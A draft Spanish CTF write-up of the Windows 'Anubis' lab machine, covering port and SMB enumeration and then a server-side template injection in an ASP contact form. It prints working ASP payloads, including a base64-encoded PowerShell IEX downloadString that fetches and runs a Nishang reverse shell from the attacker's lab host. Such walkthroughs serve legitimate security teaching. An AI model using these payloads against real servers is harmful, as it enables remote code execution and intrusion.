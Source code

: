 ```yaml
---
title: 'CTF - Anubis WriteUp'
date: '2022-02-12'
tags: ["CTF", "Windows", "SSTI", "#Import 2022-12-20 21:06"]
draft: true
authors: ['default']
summary: Esta máquina es diferente al resto Su nivel es Insane y creo que es perfecta para aprender cada det
---
```


Esta máquina es diferente al resto. Su nivel es Insane y creo que es perfecta para aprender cada detalle de como progresamos en ella. Tiene además Windows instalado y toca aspectos de contenedores. Vamos a ello.

Iniciamos el proceso validando la comunicación con mediante un Ping donde observamos además su TTL~127 por lo que se deduce que esta Windows ejecutandose en su interior.

Escaneamos los puertos con nmap.


```
nmap -p- --open -sS -T5 -v -n -Pn 10.10.11.102 -oG allPorts
```
Tratamos de enumerar las versiones de los puertos que tiene abiertos así como ejecutar varios scripts de reconocimiento básicos de NMAP con el fin de encontrar algún tipo de vulnerabilidad inicial. 


```
nmap -p135,443,445,593,49711 -sCV 10.10.11.102 -oN targeted
PORT      STATE SERVICE       VERSION
135/tcp   open  msrpc         Microsoft Windows RPC
443/tcp   open  ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| ssl-cert: Subject: commonName=www.windcorp.htb
| Subject Alternative Name: DNS:www.windcorp.htb
| Not valid before: 2021-05-24T19:44:56
|_Not valid after:  2031-05-24T19:54:56
|_http-title: Not Found
|_ssl-date: 2022-02-12T09:44:48+00:00; +1h00m01s from scanner time.
|_http-server-header: Microsoft-HTTPAPI/2.0
| tls-alpn: 
|_  http/1.1
445/tcp   open  microsoft-ds?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49711/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2022-02-12T09:44:09
|_  start_date: N/A
|_clock-skew: mean: 1h00m00s, deviation: 0s, median: 59m59s
```
### SAMBA

Vemos un par de puertos interesantes por donde vamos a empezar a revisar cosas que son el 443 y el 445.  Vamos a empezar con este último, de *smb*, para ver que información de la máquina sacamos rápidamente con Crackmapexec.


```
 crackmapexec smb 10.10.11.102
SMB         10.10.11.102    445    EARTH            [*] Windows 10.0 Build 17763 x64 (name:EARTH) (domain:windcorp.htb) (signing:True) (SMBv1:False)
```
Del comando superior recogemos que estamos ante una máquina con *Win10*, con nombre *EARTH*, perteneciente al dominio *windcorp.htb* y con smb firmado, por lo que no podremos aprovecharnos de vulnerabilidades existentes en aquellos entornos que no requieren firma.

Con el siguiente comando, tratamos de enumerar posibles directorios de red compartidos que sean públicos.


```
❯ smbmap -H 10.10.11.102
[+] IP: 10.10.11.102:445	Name: www.windcorp.htb
❯ smbmap -H 10.10.11.102 -u "null"
[!] Authentication error on 10.10.11.102
```
Por último, compruebo utilizando una herramienta alternativa, denominada *smbclient* para intentar por última vez listar recursos compartidos aprovechandonos de un [null session](https://en.wikipedia.org/wiki/Null_session).


```
❯ smbclient -L 10.10.11.102 -N
Anonymous login successful
	Sharename       Type      Comment
	---------       ----      -------
SMB1 disabled -- no workgroup available
```
Poco más podemos hacer por aquí.

IIS
---

Continuamos con el servidor web con certificado *https.* Conviene apuntarnos en */etc/hosts* el dominio *www.windcorp.htb* y *windcorp.htb* por si estuviésemos ante una máquina con virtual hosting.

Podemos hacer una prueba rápida para verificar esto utilizando CURL con el parámetro *-k* para no tener problemas ante posibles certificados autofirmados.


```
❯ curl -I -X GET https://10.10.11.102 -k
HTTP/2 404 
...

❯ curl -I -X GET https://www.windcorp.htb -k
HTTP/2 200 
...

```
..Si tratamos de acceder al servidor directamente con la IP nos arroja un estado HTTP 404 mientras que con el dominio somos capaces de llegar a la página.

![](https://blog.ikerocio.com/content/images/2022/02/image-8.png)Examinamos con *openssl* el certificado de manera más detallada por si arrojase más información relevante.


```
❯ openssl s_client --connect windcorp.htb:443
CONNECTED(00000003)
depth=0 CN = www.windcorp.htb
verify error:num=18:self signed certificate
verify return:1
depth=0 CN = www.windcorp.htb
verify return:1
---
Certificate chain
 0 s:CN = www.windcorp.htb
   i:CN = www.windcorp.htb

```
Volvemos a ver el subdominio *www*. Lanzamos un *whatweb* para ver si llegamos a ver información de interés.


```
❯ whatweb https://www.windcorp.htb
https://www.windcorp.htb [200 OK] Bootstrap, Country[RESERVED][ZZ], Email[contact@example.com,contact@windcorp.htb], Frame, HTML5, HTTPServer[Microsoft-IIS/10.0], IP[10.10.11.102], Lightbox, Microsoft-IIS[10.0], Script, Title[Windcorp - Index] 
```
Vemos que está un [Internet Information Services](https://es.wikipedia.org/wiki/Internet_Information_Services) de Microsoft como servidor por lo que podemos deducir que los tipos de lenguaje que interpreta el servidor estarán relacionados con ASP.NET. Vamos a volver a examinar la página.

Nos encontramos ante un formulario.

![](https://blog.ikerocio.com/content/images/2022/02/image-9.png)Si introducimos información en él y le damos a *Send Message*, nos encontramos la siguiente página.

![](https://blog.ikerocio.com/content/images/2022/02/image-10.png)La información que hemos escrito en la página anterior es exactamente la que visualizamos una vez pulsamos el primer botón. Hay muchas probabilidades de que nos estemos encontrando ante un [Server Side Template Injection](https://portswigger.net/web-security/server-side-template-injection).

Vamos a comprobarlo volviendo a la página anterior, introduciendo unos nuevos valores y volviendo a pulsar el botón.

![](https://blog.ikerocio.com/content/images/2022/02/image-13.png)¿5x5? 😎 Exacto, 25.

![](https://blog.ikerocio.com/content/images/2022/02/image-14.png)Lo que ha sucedido es que hemos conseguido inyectar código y el servidor ha interpretado el resultado. En este caso, el código del servidor no limpia el input del usuario y permite ejecutar directamente en su plantilla lo introducido anteriormente. Esto no es algo único de ASP. Este tipo de vulnerabilidades se pueden dar (y se dan) en cualquier lenguaje que tenga un motor de renderizado de plantillas como puede ser Jinja2 u otros.

Encontramos un modo de ejecutar código desde una shell [aquí](https://www.hackingdream.net/2020/02/reverse-shell-cheat-sheet-for-penetration-testing-oscp.html).


```
%response.write CreateObject("WScript.Shell").Exec("ping 10.10.14.21").StdOut.Readall()%

```
Pero necesitamos una manera de entablar una reverse shell desde Windows, que no es tan trivial como en Linux con Bash. En el repositorio de Nishang, cogemos [esta](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1) reverse shell. La idea es cambiar el script de arriba de tal modo que primero nos descarguemos el script a la máquina remota.


```
%response.write CreateObject("WScript.Shell").Exec("cmd /c powershell IEC(New-Object Net.WebClient).downloadString('http://10.10.14.21/PS.ps1')").StdOut.Readall()%
```
Siempre que lidiamos con comillas dobles, comillas simples, etc, es mejor encodear el contenido en base64 y tratar de transmitir la información de esa forma. Además, Powershell permite ejecutar código en base64 pasándole el parámetro -e, por lo que vamos a tratar de cambiar primero el comando de arriba un poco. Cosas a tener en consideración según [Microsoft](https://docs.microsoft.com/es-es/powershell/module/microsoft.powershell.core/about/about_character_encoding?view=powershell-7.2).


 En general, Windows PowerShell tiene configurada la codificación UNICODE [UTF-16LE](https://wikipedia.org/wiki/UTF-16) de forma predeterminada.

Para ello, ejecutamos el siguiente código.


```
❯ echo "IEX(New-Object Net.WebClient).downloadString('http://10.10.14.21/PS.ps1')"data
❯ cat data | iconv -t utf-16le | xxd
00000000: 4900 4500 5800 2800 4e00 6500 7700 2d00  I.E.X.(.N.e.w.-.
00000010: 4f00 6200 6a00 6500 6300 7400 2000 4e00  O.b.j.e.c.t. .N.
00000020: 6500 7400 2e00 5700 6500 6200 4300 6c00  e.t...W.e.b.C.l.
00000030: 6900 6500 6e00 7400 2900 2e00 6400 6f00  i.e.n.t.)...d.o.
00000040: 7700 6e00 6c00 6f00 6100 6400 5300 7400  w.n.l.o.a.d.S.t.
00000050: 7200 6900 6e00 6700 2800 2700 6800 7400  r.i.n.g.(.'.h.t.
00000060: 7400 7000 3a00 2f00 2f00 3100 3000 2e00  t.p.:././.1.0...
00000070: 3100 3000 2e00 3100 3400 2e00 3200 3100  1.0...1.4...2.1.
00000080: 2f00 5000 5300 2e00 7000 7300 3100 2700  /.P.S...p.s.1.'.
00000090: 2900 0a00                                )...
❯ cat data | iconv -t utf-16le | base64 -w0; echo
SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADIAMQAvAFAAUwAuAHAAcwAxACcAKQAKAA==
```
Básicamente, lo que hacemos cambiando el encoding a utf-16le, es añadir esos puntos entre los caracteres si los visualizamos en formato hexadecimal. Pero a nosotros nos interesa el contenido en base64, por lo que nos quedamos con el último output del mensaje.

Para ello, ponemos un servidor en escucha en nuestra máquina y *netcat* en el 443 (con *rlwrap* para poder usar los cursores en la nueva consola), puesto que se van a realizar las dos cosas al mismo tiempo.

Ponemos el script inferior en el formulario y ejecutamos.


```
%response.write CreateObject("WScript.Shell").Exec("cmd /c powershell -e SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADIAMQAvAFAAUwAuAHAAcwAxACcAKQAKAA==").StdOut.Readall()%
```
![](https://blog.ikerocio.com/content/images/2022/02/image-16.png)Ya hemos ganado acceso a la máquina.

Con un par de comandos como ipconfig y ls C: nos damos cuenta de que estamos en un contenedor.


```
❯ ipconfig
Windows IP Configuration
Ethernet adapter vEthernet (Ethernet):

   Connection-specific DNS Suffix  . : htb
   Link-local IPv6 Address . . . . . : fe80::9d2d:a5ec:4bd2:b52d%32
   IPv4 Address. . . . . . . . . . . : 172.22.47.185
   Subnet Mask . . . . . . . . . . . : 255.255.240.0
   Default Gateway . . . . . . . . . : 172.22.32.1
   
❯ ls C:\
    Directory: C:\
Mode                LastWriteTime         Length Name                         
----                -------------         ------ ----                         
d-----        4/25/2021  11:23 PM                inetpub                     
d-r---        5/24/2021  10:49 PM                Program Files
d-----         4/9/2021  10:34 PM                Program Files (x86)
d-r---         4/9/2021  10:37 PM                Users
d-----        4/26/2021  12:32 AM                Windows
```
Podríamos asegurarnos una TTY interactiva utlizando una utilidad de AntonioCoco que tenemos en su repositorio llamada [ConPtyShell](https://github.com/antonioCoco/ConPtyShell) pero como la máquina es larga, vamos a saltarnos este paso.

